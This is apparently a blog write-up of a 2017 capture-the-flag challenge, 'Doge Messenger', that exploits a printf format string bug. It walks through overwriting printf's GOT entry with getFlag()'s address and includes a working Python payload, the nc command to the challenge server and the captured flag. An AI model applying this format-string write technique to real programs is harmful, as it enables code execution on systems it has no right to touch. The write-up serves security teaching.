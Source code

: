 ```yaml
---
title: "[SecurityMoocCTF] Doge Messenger (200 points)"
date: 2017-07-06 00:00:06 +0530
categories:
  - Write-ups
header:
  teaser: "https://i.imgur.com/oucceD8.png"
tags:
  - securitymooc
excerpt: ""
---
```

Here's the [file link](/assets/write-ups/securitymoocctf/doge).
Here's the [C Source](/assets/write-ups/securitymoocctf/doge.c).


```
We have lost control on execution sequence of this program, a controlled execution were
allowing us to get the master key which one can use to login to anyone's tinder :). Here
is the binary and here is the source code. Use nc 52.7.95.224 8040 to connect to server.
```

Inspecting the source we have a function to get the flag:
{% highlight c%}
void getFlag()
{
	system("/bin/cat flag.txt\n");
}
{% endhighlight %}
But we don't have any calls to it.
Since all buffers and operations have fixed size thus, no buffer-overflow.

We notice at `line 62` that there's a `printf(buf)` (with a more-than-sufficient size of 256). So we can write at any address exploiting this format string vulnerability. Trying the string `aaaa%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X...` We see that that our input can be found at the 7th position (Notice the toggled case of 'aaaa').

I fired up gdb and checked `printf()`'s [disassembly](/assets/write-ups/securitymoocctf/doge.asm). Observe that it reads a jump using a value as an address from Data Segment (GOT):
{% highlight nasm%}
0x8048580 <printf@plt>:	jmp    DWORD PTR ds:0x804b010
{% endhighlight %}

So I chose the location `0x804b010`.
I got `getFlag()`'s address using `nm doge | grep getFlag` which gives `0x0804878b` as the value to write.

Our objective is to write exactly `0x0804878b` at location `0x804b010`.
Notice since I was writing using `printf` for the first time, I tried writing byte-by-byte instead of the usual 2 byte method, using python:
{% highlight python linenos %}
import struct
s='Kunal\n2\n'			#Need second call to printf to jump to getFlag()
s+=struct.pack('I',0x804b010) + 'a'*4
s+=struct.pack('I',0x804b011) + 'a'*4
s+=struct.pack('I',0x804b012) + 'a'*4
s+=struct.pack('I',0x804b013)
ff="%X"*5+"%" + str(0x4d + 0x8)
ff+= "X"+"%N%"+str(0x187-0x93+0x8)+"X%N%"
ff+= str(0x204-0x8f+0x8)+"X%N%"
ff+= str(0x108-0xc+0x8) + "X%N"
s+=ff
# with open("inp",'w') as f:
#	f.write(s)			#For use with gdb
print s					#For use with nc/debugging
{% endhighlight %}

One thing to take care of is that after the input, the program toggles the case of all the alphabets so, we had to be careful to toggle them intitally to nullify that effect (We fortunately didn't have any alphabets in any of the address bytes).

Now trying this input:
```console
$ python input.py | nc 52.7.95.224 8040 
                   ▄              ▄
                  ▌▒█           ▄▀▒▌
                  ▌▒▒█        ▄▀▒▒▒▐
                 ▐▄▀▒▒▀▀▀▀▄▄▄▀▒▒▒▒▒▐
               ▄▄▀▒░▒▒▒▒▒▒▒▒▒█▒▒▄█▒▐
             ▄▀▒▒▒░░░▒▒▒░░░▒▒▒▀██▀▒▌
            ▐▒▒▒▄▄▒▒▒▒░░░▒▒▒▒▒▒▒▀▄▒▒▌
            ▌░░▌█▀▒▒▒▒▒▄▀█▄▒▒▒▒▒▒▒█▒▐
           ▐░░░▒▒▒▒▒▒▒▒▌██▀▒▒░░░▒▒▒▀▄▌
           ▌░▒▄██▄▒▒▒▒▒▒▒▒▒░░░░░░▒▒▒▒▌
          ▌▒▀▐▄█▄█▌▄░▀▒▒░░░░░░░░░░▒▒▒▐
          ▐▒▒▐▀▐▀▒░▄▄▒▄▒▒▒▒▒▒░▒░▒░▒▒▒▒▌
          ▐▒▒▒▀▀▄▄▒▒▒▄▒▒▒▒▒▒▒▒░▒░▒░▒▒▐
           ▌▒▒▒▒▒▒▀▀▀▒▒▒▒▒▒░▒░▒░▒░▒▒▒▌
           ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒░▒░▒░▒▒▄▒▒▐
            ▀▄▒▒▒▒▒▒▒▒▒▒▒░▒░▒░▒▄▒▒▒▒▌
              ▀▄▒▒▒▒▒▒▒▒▒▒▄▄▄▀▒▒▒▒▄▀
                ▀▄▄▄▄▄▄▀▀▀▒▒▒▒▒▄▄▀

         D O G E   M E S S E N G E R
         Send your message to doge!!

Your name: 
How many messages do you want to send? 
Your message: 
Doge's response: <Garbage>
...
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
```

